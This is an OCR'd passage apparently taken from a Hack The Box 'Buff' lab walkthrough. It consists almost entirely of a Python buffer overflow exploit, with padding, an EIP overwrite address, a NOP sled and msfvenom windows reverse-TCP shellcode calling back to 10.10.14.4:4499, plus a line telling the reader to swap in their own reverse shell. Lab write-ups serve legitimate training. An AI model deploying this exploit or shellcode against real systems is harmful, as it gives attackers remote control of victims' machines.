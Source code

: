       buf += b"\xbe\x73\x94\x52\x61\x28\x32\xdf\xea\xf6\xc5\x20\xc1"
      buf += b"\x4f\x59\xdf\xea\xaf\x70\x24\xbe\xff\xea\x8d\xbf\x6b"
      buf += b"\xea\x32\x6a\x3b\xba\x9c\xc5\xfc\x6a\x5d\xb6\x94\x60"
      buf += b"\x52\xe9\x85\x8b\xb8\x82\x2c\x76\x2b\xa7\xba\x76\xaf"
      buf += b"\xdf\xb8\x86\xbe\x8c\x34\x60\xaa\xa2\x10\x3b\x43\x5a"
      buf += b"\x39\xb7\xf2\xa3\x97\xb2\x35\x2f\x14\x43\xfb\xd8\x51"
      buf += b"\x57\x6c\x29\x2c\x05\x3b\x36\x9a\x21\xa7\xa5\x41\xb1"
      buf += b"\xae\xd5\xdd\xe6\xe7\x28\x14\x62\x1a\x12\x8e\x90\xe7"
      buf += b"\xc2\xe9\x10\x3c\x37\xf7\x99\xb1\x03\xd3\x89\x0f\x8b"
      buf += b"\x5f\xfd\xdf\xda\x09\xab\x99\xb4\xfb\x05\x70\x6a\x52"
      buf += b"\xc1\x05\x40\x65\x97\x09\x8d\x13\x77\xbb\x78\x62\x88"
      buf += b"\x74\xed\x62\xf1\x68\x8d\x8d\x28\x29\xad\x6f\xf8\x44"
      buf += b"\x46\x36\x69\xe5\x0b\xc9\x44\x2a\x32\x4a\x6c\xd3\xc1"
      buf += b"\x52\x05\xd6\x8e\xd4\xf6\xaa\x9f\xb0\xf8\x19\x9f\x90"

   Modify the exploit script and change the payload to your reverse shell.

     root@nidus:/git/htb/buff# cat root-exploit.py
      import socket

      target = "127.0.0.1"

      padding1   = b"\x90" * 1052
      EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
      NOPS       = b"\x90" * 30

      #msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4499 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
      payload =  b""
      payload += b"\xda\xd3\xd9\x74\x24\xf4\xbe\x2c\x9a\xa7\xd2\x5f\x29"
      payload += b"\xc9\xb1\x52\x83\xc7\x04\x31\x77\x13\x03\x5b\x89\x45"
      payload += b"\x27\x5f\x45\x0b\xc8\x9f\x96\x6c\x40\x7a\xa7\xac\x36"
      payload += b"\x0f\x98\x1c\x3c\x5d\x15\xd6\x10\x75\xae\x9a\xbc\x7a"
      payload += b"\x07\x10\x9b\xb5\x98\x09\xdf\xd4\x1a\x50\x0c\x36\x22"
      payload += b"\x9b\x41\x37\x63\xc6\xa8\x65\x3c\x8c\x1f\x99\x49\xd8"
      payload += b"\xa3\x12\x01\xcc\xa3\xc7\xd2\xef\x82\x56\x68\xb6\x04"
      payload += b"\x59\xbd\xc2\x0c\x41\xa2\xef\xc7\xfa\x10\x9b\xd9\x2a"
      payload += b"\x69\x64\x75\x13\x45\x97\x87\x54\x62\x48\xf2\xac\x90"
      payload += b"\xf5\x05\x6b\xea\x21\x83\x6f\x4c\xa1\x33\x4b\x6c\x66"
      payload += b"\xa5\x18\x62\xc3\xa1\x46\x67\xd2\x66\xfd\x93\x5f\x89"
      payload += b"\xd1\x15\x1b\xae\xf5\x7e\xff\xcf\xac\xda\xae\xf0\xae"
      payload += b"\x84\x0f\x55\xa5\x29\x5b\xe4\xe4\x25\xa8\xc5\x16\xb6"
      payload += b"\xa6\x5e\x65\x84\x69\xf5\xe1\xa4\xe2\xd3\xf6\xcb\xd8"
      payload += b"\xa4\x68\x32\xe3\xd4\xa1\xf1\xb7\x84\xd9\xd0\xb7\x4e"
      payload += b"\x19\xdc\x6d\xc0\x49\x72\xde\xa1\x39\x32\x8e\x49\x53"
      payload += b"\xbd\xf1\x6a\x5c\x17\x9a\x01\xa7\xf0\xaf\xdf\xa9\x04"
      payload += b"\xd8\xdd\xb5\x15\x8b\x6b\x53\x7f\xbb\x3d\xcc\xe8\x22"
      payload += b"\x64\x86\x89\xab\xb2\xe3\x8a\x20\x31\x14\x44\xc1\x3c"
      payload += b"\x06\x31\x21\x0b\x74\x94\x3e\xa1\x10\x7a\xac\x2e\xe0"
      payload += b"\xf5\xcd\xf8\xb7\x52\x23\xf1\x5d\x4f\x1a\xab\x43\x92"
      payload += b"\xfa\x94\xc7\x49\x3f\x1a\xc6\x1c\x7b\x38\xd8\xd8\x84"
      payload += b"\x04\x8c\xb4\xd2\xd2\x7a\x73\x8d\x94\xd4\x2d\x62\x7f"
      payload += b"\xb0\xa8\x48\x40\xc6\xb4\x84\x36\x26\x04\x71\x0f\x59"
      payload += b"\xa9\x15\x87\x22\xd7\x85\x68\xf9\x53\xa5\x8a\x2b\xae"
      payload += b"\x4e\x13\xbe\x13\x13\xa4\x15\x57\x2a\x27\x9f\x28\xc9"
      payload += b"\x37\xea\x2d\x95\xff\x07\x5c\x86\x95\x27\xf3\xa7\xbf"
